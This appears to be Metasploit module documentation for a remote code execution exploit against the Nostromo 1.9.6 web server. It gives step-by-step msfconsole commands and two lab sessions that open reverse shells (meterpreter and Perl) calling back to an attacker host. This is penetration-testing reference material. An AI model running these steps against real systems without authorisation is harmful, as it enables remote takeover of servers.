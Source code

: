 ## Vulnerable Application

Verified against:

* Nostromo 1.9.6 on Linux

Nostromo sources can be downloaded from http://www.nazgul.ch/dev_nostromo.html

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/nostromo_code_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Scenarios

Example utilizing nostromo 1.9.6 on Ubuntu Linux.

```
msf > use exploit/multi/http/nostromo_code_exec
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf exploit(multi/http/nostromo_code_exec) > set RPORT 8000
RPORT => 8000
msf exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8000 - The target appears to be vulnerable.
msf exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
msf exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x86/meterpreter/reverse_tcp command stager
[*] Sending stage (985320 bytes) to 192.168.1.9
[*] Meterpreter session 2 opened (192.168.1.10:4444 -> 192.168.1.9:52544) at 2019-10-29 16:08:18 +0100
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : nostromo.local
OS           : Ubuntu 18.04 (Linux 4.15.0-62-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 192.168.1.9 - Meterpreter session 2 closed.  Reason: User exit
```

nostromo 1.9.6 on OpenBSD.

```
msf > use exploit/multi/http/nostromo_code_exec
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf exploit(multi/http/nostromo_code_exec) > set RPORT 8001
RPORT => 8001
msf exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8001 - The target appears to be vulnerable.
msf exploit(multi/http/nostromo_code_exec) > set target 0
target => 0
msf exploit(multi/http/nostromo_code_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.9:52312) at 2019-10-29 15:48:28 +0100
id
uid=536(_nostromo) gid=536(_nostromo) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
uname -avr
OpenBSD nostromo.local 6.4 GENERIC#349 amd64
^C
Abort session 1? [y/N]  y
[*] 192.168.1.9 - Command shell session 1 closed.  Reason: User exit
```
